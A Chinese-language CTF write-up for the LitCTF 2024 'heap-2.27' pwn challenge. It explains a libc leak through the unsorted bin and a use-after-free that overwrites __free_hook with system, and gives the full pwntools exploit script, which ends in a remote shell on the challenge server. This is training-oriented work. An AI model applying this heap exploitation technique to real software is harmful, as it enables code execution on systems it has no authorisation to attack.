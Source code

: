 ```yaml
---
title: '[LitCTF 2024]heap-2.27'
date: 2024-11-13 0:20 +0800
categories: [ctf,pwn]
tags: [unsortbin_leaklibc,free_hook]
---
```

> Problem: [[LitCTF 2024]heap-2.27](https://www.nssctf.cn/problem/5615)

## 思路
	通过`unsortbin`泄漏`libc`地址，根据地址找到`free_hook`函数所在。
	`delete`函数中存在`uaf`，使得我们能够修改已经释放的堆块，因此，我们可以通过修改堆块的`fd`申请到任意内存位置的堆块，实现`free_hook`劫持。
	需要了解unsortbin生成条件，free_hook劫持原理。

## EXP
```python
cat exp.py
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
#elf = ELF('./heap')
lib = ELF('/root/tools/glibc-all-in-one/libs/2.27-3ubuntu1.5_amd64/libc.so.6')
#io = gdb.debug('./heap')
io = remote('node4.anna.nssctf.cn',28014)
def create(idx,size):
    io.sendlineafter(b'>>',str(1))
    io.sendlineafter(b'idx? ',str(idx))
    io.sendlineafter(b'size? ',str(size))

def delete(idx):
    io.sendlineafter(b'>>',str(2))
    io.sendlineafter(b'idx? ',str(idx))

def show(idx):
    io.sendlineafter(b'>>',str(3))
    io.sendlineafter(b'idx? ',str(idx))

def edit(idx,content):
    io.sendlineafter(b'>>',str(4))
    io.sendlineafter(b'idx? ',str(idx))
    io.sendlineafter(b'content :',content)

create(0,0x10)
create(1,0x420)
create(2,0x10)
delete(1)
show(1)

free_hook = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))+0x1c48
log.info(hex(free_hook))
libc_base = free_hook-lib.sym['__free_hook']
sys_addr = libc_base + lib.sym['system']
#pause()

create(3,0x10)
delete(3)
edit(3,p64(free_hook))
create(4,0x10)
create(5,0x10)
#pause()
edit(5,p64(sys_addr))
edit(4,b'/bin/sh')
delete(4)


io.interactive()```

## 总结
	学到一个小技巧，在pwngdb中可以通过`p &__free_hook`配合`distance`确定位置。

